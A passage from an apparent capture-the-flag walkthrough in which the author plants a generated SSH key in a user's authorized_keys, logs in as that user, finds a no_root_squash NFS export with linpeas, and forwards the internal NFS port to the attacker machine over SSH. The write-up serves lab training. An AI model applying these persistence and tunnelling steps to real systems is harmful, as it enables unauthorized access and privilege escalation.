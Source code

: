 Since there was no private key, we need to generate new pair, so I used `ssh-keygen` command to generate a new pair of ssh keys,

```bash
ssh-keygen -f paradox
```

![image](https://user-images.githubusercontent.com/67465230/187019688-4801b236-43e9-4375-9725-4668f8c72770.png)

The new pair of keys are generated and we can paste our paradox.pub-key into the authorized_keys, 

```bash
echo "<paradox.pub-key>" > authorized_keys
```

Now, let's give the suitable permissions to the key and ssh into the machine as paradox user and will get the shell access,

```bash
chmod 600 paradox
ssh -i paradox paradox@10.10.59.70
```

![image](https://user-images.githubusercontent.com/67465230/187019704-44c2127e-1326-4264-b112-c399505b43ad.png)

Again running the linpeas & scrolling down the result, we can see the yellow highlighted part displaying **no_root_squash**. If we don't have root squash that means the `/home/james` directory is shareable and can be mounted,

![image](https://user-images.githubusercontent.com/67465230/187019712-b1d64f24-be8d-41cf-99d2-efb967483ba1.png)

We have a NFS mount! But we didn’t see NFS anywhere on the nmap scan! This tells us that the port is probably behind a firewall. A quick google search tells us that `fsid=0` means that we are using `NFSv4` here. This is good, as we only have 1 port to worry about. 

Let's check if we can list the mount the /home/james user, but we can't,

```bash
showmount -e
showmount -e 10.9.11.12
```

![image](https://user-images.githubusercontent.com/67465230/187019715-76f8f3e2-0381-4e39-b070-98b03b3061f5.png)

If we check the Nmap result from the full port scan, the port listening for NFS, i.e. 2049 was closed. So let's check if the  port is internally open using `ss` command, 

```bash
ss -ln | grep tcp
```

![image](https://user-images.githubusercontent.com/67465230/187019727-932af586-dbd2-4bbd-9645-9669dd46550b.png)

Since we know that port is internally open, we can port forward this port on our attacker machine, 

```bash
ssh -fNL 2049:localhost:2049 -i paradox paradox@10.10.59.70

# -N : Do not execute a remote command.  This is useful for just forwarding ports.
# -L : Specifies that connections to the given TCP port on the local (client) host are to be forwarded to the given host and port, on the remote side.
# -f : Requests ssh to go to background just before command execution. This is useful if ssh is going to ask for passwords or passphrases, but the user wants it in the background.
```
